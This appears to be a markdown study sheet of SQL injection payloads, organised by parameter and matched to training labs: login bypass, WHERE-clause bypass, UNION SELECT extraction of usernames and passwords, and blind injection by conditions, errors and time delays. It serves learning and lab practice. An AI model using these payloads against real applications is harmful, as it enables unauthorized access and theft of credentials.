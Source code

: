 ### 01 - SQL Injection

- **Login Form → username parameter**
    - **Vulnerability:** SQL Injection – Login Bypass
        - **Description:** Bypass authentication by injecting into login fields.
        - **Payloads:**
            - `administrator'--`
        - **Relevant Labs:**
            - SQL injection vulnerability allowing login bypass

- **Product Filter → category parameter**    
    - **Vulnerability:** SQL Injection – WHERE Clause Bypass
        - **Description:** Retrieve hidden data by breaking or appending conditions in SQL WHERE clauses.
        - **Payloads:**
            - `' OR '1'='1'--`
        - **Relevant Labs:**
            - SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

- **Query Parameter → UNION-based Injection**
    - **Vulnerability:** SQL Injection – UNION SELECT
        - **Techniques:**
            - Determine number of columns:
                - `' ORDER BY 1--`
                - `' UNION SELECT NULL,NULL--`
            - Identify column containing text:
                - `' UNION SELECT NULL,'abc'--`
            - Extract data from other tables:
                - `' UNION SELECT username, password FROM users--`
            - Merge multiple values in one column:
                - `' UNION SELECT NULL, username || ':' || password FROM users--`
        - **Relevant Labs:**
            - SQL injection UNION attack, determining the number of columns returned by the query
            - SQL injection UNION attack, finding a column containing text
            - SQL injection UNION attack, retrieving data from other tables
            - SQL injection UNION attack, retrieving multiple values in a single column

- **Generic Input Field**
    - **Vulnerability:** Blind SQL Injection – Conditional Responses
        - **Description:** Use conditions to infer data from responses (true vs. false queries).
        - **Payloads:**
            - `' AND 1=1--`
            - `' AND 1=2--`
        - **Relevant Labs:**
            - Blind SQL injection with conditional responses
    - **Vulnerability:** Blind SQL Injection – Error-Based
        - **Description:** Use syntax errors to infer application logic or data presence.
        - **Payloads:**
            - `' || (SELECT CASE WHEN (username='administrator') THEN TO_CHAR(1/0) ELSE '' END FROM dual)--`
        - **Relevant Labs:**
            - Blind SQL injection with conditional errors
            - Visible error-based SQL injection
    - **Vulnerability:** Blind SQL Injection – Time Delays
        - **Description:** Use `SLEEP()` or `pg_sleep()` to detect data conditions from delayed responses.
        - **Payloads:**
            - `' OR IF(1=1, SLEEP(10), 0)--`
            - `' OR pg_sleep(5)--`
        - **Relevant Labs:**
            - Blind SQL injection with time delays
            - Blind SQL injection with time delays and information retrieval
